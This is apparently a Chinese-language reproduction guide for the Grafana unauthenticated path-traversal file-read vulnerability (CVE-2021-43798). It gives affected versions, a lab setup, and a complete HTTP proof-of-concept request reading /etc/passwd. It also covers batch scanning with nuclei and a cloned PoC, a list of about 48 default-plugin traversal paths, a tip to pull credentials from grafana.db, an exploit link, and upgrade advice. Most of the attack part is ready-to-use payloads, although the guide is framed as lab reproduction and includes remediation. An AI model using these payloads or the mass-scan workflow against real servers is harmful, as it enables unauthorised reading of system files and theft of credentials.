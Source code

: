 # 0x00 漏洞描述
Grafana是一个跨平台、开源的数据可视化网络应用程序平台。用户配置连接的数据源之后，Grafana可以在网络浏览器里显示数据图表和警告。

Grafana 存在未授权任意文件读取漏洞，攻击者在未经身份验证的情况下可通过该漏洞读取主机上的任意文件。

该漏洞源于Grafana在获取公共插件资产的相关函数中对于路径参数的字符清理不当，导致攻击者可以通过将包含特殊目录遍历字符序列(../)的特制HTTP请求发送到受影响的设备来利用此漏洞。成功利用该漏洞的攻击者可以在目标设备上查看文件系统上的的任意文件。

# 0x01 影响范围

8.0.0-beta1 <= Grafana < 8.0.7
8.1.0 <= Grafana < 8.1.8

8.2.0 <= Grafana < 8.2.7

Grafana == 8.3.0

# 0x02 环境搭建
vulfocus

![image](https://user-images.githubusercontent.com/84888757/162635345-afdd14ff-ea8d-437a-aa49-196d881a7175.png)


# 0x03 漏洞复现
## 3.1 手工验证
1、简单判断是否存在：/public/plugins/a/a
400 啥的需要考虑中间件
```
GET /public/plugins/a/a  HTTP/1.1
Host: Your Ip:port
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: zh-CN,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Pragma: no-cache
Cache-Control: no-cache
```
存在：

![image](https://user-images.githubusercontent.com/84888757/162635405-0fd17a5b-9682-4548-b21b-ba64fd5b325a.png)

![image](https://user-images.githubusercontent.com/84888757/162635452-521f31d6-0f28-4874-8d5a-dd5d46a2ea45.png)


2、POC
```
https://xxxxxx.xx/public/plugins/grafana-clock-panel/../../../../../../etc/passwd
```

POC完整数据包：
```
GET /public/plugins/grafana-clock-panel/../../../../../../etc/passwd HTTP/1.1
Host: Your Ip:port
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![image](https://user-images.githubusercontent.com/84888757/162635484-ccd4a59d-7165-4341-a2bb-e2a711e49f0b.png)

# 3.2 批量验证
- 工具：
  - [nuclei扫描工具](https://github.com/projectdiscovery/nuclei)
  - [CVE-2021-43798-Grafana-File-Read-->POC](https://github.com/tangxiaofeng7/CVE-2021-43798-Grafana-File-Read)

- Ubuntu18安装go
  - ```sudo apt-get install golang```

- 下载poc：

```
git clone https://github.com/tangxiaofeng7/CVE-2021-43798-Grafana-File-Read.git
```

- 使用nuclei工具
```
./nuclei -t grafana.yaml -list urls.txt -o Gresult.txt
```

![image](https://user-images.githubusercontent.com/84888757/162635695-1900cffb-5f67-44a2-afeb-5e41c3ffd856.png)


- 默认安装的插件（可测试）
```
/public/plugins/alertGroups/../../../../../../../../etc/passwd
/public/plugins/alertlist/../../../../../../../../etc/passwd
/public/plugins/alertmanager/../../../../../../../../etc/passwd
/public/plugins/annolist/../../../../../../../../etc/passwd
/public/plugins/barchart/../../../../../../../../etc/passwd
/public/plugins/bargauge/../../../../../../../../etc/passwd
/public/plugins/canvas/../../../../../../../../etc/passwd
/public/plugins/cloudwatch/../../../../../../../../etc/passwd
/public/plugins/dashboard/../../../../../../../../etc/passwd
/public/plugins/dashlist/../../../../../../../../etc/passwd
/public/plugins/debug/../../../../../../../../etc/passwd
/public/plugins/elasticsearch/../../../../../../../../etc/passwd
/public/plugins/gauge/../../../../../../../../etc/passwd
/public/plugins/geomap/../../../../../../../../etc/passwd
/public/plugins/gettingstarted/../../../../../../../../etc/passwd
/public/plugins/grafana-azure-monitor-datasource/../../../../../../../../etc/passwd
/public/plugins/grafana/../../../../../../../../etc/passwd
/public/plugins/graph/../../../../../../../../etc/passwd
/public/plugins/graphite/../../../../../../../../etc/passwd
/public/plugins/heatmap/../../../../../../../../etc/passwd
/public/plugins/histogram/../../../../../../../../etc/passwd
/public/plugins/influxdb/../../../../../../../../etc/passwd
/public/plugins/jaeger/../../../../../../../../etc/passwd
/public/plugins/live/../../../../../../../../etc/passwd
/public/plugins/logs/../../../../../../../../etc/passwd
/public/plugins/loki/../../../../../../../../etc/passwd
/public/plugins/mixed/../../../../../../../../etc/passwd
/public/plugins/mssql/../../../../../../../../etc/passwd
/public/plugins/mysql/../../../../../../../../etc/passwd
/public/plugins/news/../../../../../../../../etc/passwd
/public/plugins/nodeGraph/../../../../../../../../etc/passwd
/public/plugins/opentsdb/../../../../../../../../etc/passwd
/public/plugins/piechart/../../../../../../../../etc/passwd
/public/plugins/pluginlist/../../../../../../../../etc/passwd
/public/plugins/postgres/../../../../../../../../etc/passwd
/public/plugins/prometheus/../../../../../../../../etc/passwd
/public/plugins/stat/../../../../../../../../etc/passwd
/public/plugins/state-timeline/../../../../../../../../etc/passwd
/public/plugins/status-history/../../../../../../../../etc/passwd
/public/plugins/table-old/../../../../../../../../etc/passwd
/public/plugins/table/../../../../../../../../etc/passwd
/public/plugins/tempo/../../../../../../../../etc/passwd
/public/plugins/testdata/../../../../../../../../etc/passwd
/public/plugins/text/../../../../../../../../etc/passwd
/public/plugins/timeseries/../../../../../../../../etc/passwd
/public/plugins/welcome/../../../../../../../../etc/passwd
/public/plugins/xychart/../../../../../../../../etc/passwd
/public/plugins/zipkin/../../../../../../../../etc/passwd
```

## RCE 思路
RCE方法-->读库(/var/lib/grafana/grafana.db)，有几率获取 AccessKey

## EXP
https://github.com/A-D-Team/grafanaExp

# 0x04 修复建议
建议升级该组件至最新版本。

# 0x05 参考链接
- https://47.101.61.67/detail?id=AVD-2021-916648
